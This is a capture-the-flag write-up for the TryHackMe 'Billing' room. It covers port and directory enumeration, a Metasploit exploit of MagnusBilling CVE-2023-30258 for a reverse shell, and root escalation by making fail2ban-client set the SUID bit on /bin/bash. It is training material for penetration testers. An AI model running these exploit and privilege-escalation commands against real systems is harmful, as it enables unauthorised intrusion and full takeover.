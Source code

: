 ```yaml
---
title: Billing - TryHackMe
date: 2025-03-22
---
```


<script setup>
    import RoomCard from "../../../.vitepress/components/thm/RoomCard.vue";
</script>

<RoomCard
    roomName="Billing"
    roomIcon="/ctf/tryhackme/billing/icon-room.png"
    roomLink="https://tryhackme.com/room/billing"
    roomLevel="EASY"
    roomTechnology="Linux"
/>

## Challenge Overview

This challenge involves exploiting a vulnerable instance of MagnusBilling, an open-source billing system for VoIP services. The goal is to gain initial access via a known unauthenticated remote code execution (RCE) vulnerability and escalate privileges to root by abusing misconfigured sudo permissions.

## Enumeration

### Nmap Scan

We begin with a full port scan using Nmap to identify open services and their versions:

```bash
nmap -sC -sV -v -p- -oN billing.nmap 10.10.4.139
```

**Scan Results:**

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
3306/tcp open  mysql    MariaDB (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
```

**Services Identified:**

- `22/tcp`: SSH – OpenSSH 8.4p1
- `80/tcp`: HTTP – Apache 2.4.56, serving a web application
- `3306/tcp`: MariaDB – Access denied (requires authentication)
- `5038/tcp`: Asterisk Call Manager – VoIP management interface

### Web Enumeration

Navigating to `http://10.10.4.139/` reveals a login portal for MagnusBilling.

![MagnusBilling Login Page](/ctf/tryhackme/billing/login.png)

We enumerate accessible web directories using `gobuster`:

```bash
gobuster dir -u http://10.10.4.139/mbilling/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -o gobuster.txt
```

**Notable Results:**

```
/LICENSE              (Status: 200) [Size: 7652]
/archive              (Status: 301) [Size: 325] [--> http://10.10.251.102/mbilling/archive/]
/assets               (Status: 301) [Size: 324] [--> http://10.10.251.102/mbilling/assets/]
/fpdf                 (Status: 301) [Size: 322] [--> http://10.10.251.102/mbilling/fpdf/]
/index.html           (Status: 200) [Size: 30760]
/index.php            (Status: 200) [Size: 663]
/lib                  (Status: 301) [Size: 321] [--> http://10.10.251.102/mbilling/lib/]
/resources            (Status: 301) [Size: 327] [--> http://10.10.251.102/mbilling/resources/]
/tmp                  (Status: 301) [Size: 321] [--> http://10.10.251.102/mbilling/tmp/]
```

Reviewing the `LICENSE` file reveals that the application is **MagnusBilling v3**, dating back to 2007.

![License File](/ctf/tryhackme/billing/license.png)

## Exploitation – Unauthenticated RCE (CVE-2023-30258)

After identifying the software version, we search for known vulnerabilities and discover an unauthenticated remote code execution vulnerability in MagnusBilling v3:

> [Rapid7 Advisory – CVE-2023-30258](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)

This vulnerability allows attackers to execute commands on the server without authentication.

### Using Metasploit to Exploit

We use Metasploit’s module to exploit the RCE:

```bash
msfconsole
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set RHOSTS 10.10.4.139
set RPORT 80
exploit
```

**Result:** We successfully gain a reverse shell as the `asterisk` user.

![Asterisk Shell](/ctf/tryhackme/billing/asterisk-shell.png)

We can now read the `user.txt` flag:

![User Flag](/ctf/tryhackme/billing/user-flag.png)

## Privilege Escalation

### Enumerating Sudo Permissions

We check what commands the `asterisk` user can run with `sudo`:

```bash
sudo -l
```

**Output:**

```
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

This indicates that the user can run `fail2ban-client` as root without a password.

### Understanding Fail2Ban Misconfiguration

The `fail2ban-client` binary is part of the **Fail2Ban** framework, which manages firewall bans by monitoring logs. It uses actions like `banip` or `actionban` to trigger system commands (e.g., blocking an IP).

By setting a malicious action that runs a command (such as giving `/bin/bash` the SUID bit), we can escalate privileges.

### Exploiting Fail2Ban to Gain Root

We first modify the `actionban` parameter for a jail to execute our payload:

```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```

Then, trigger the ban to execute the malicious action:

```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 10.10.10.10
```

This sets the SUID bit on `/bin/bash`, allowing us to execute it with root privileges:

```bash
/bin/bash -p
```

Now we have a root shell and can retrieve the final flag.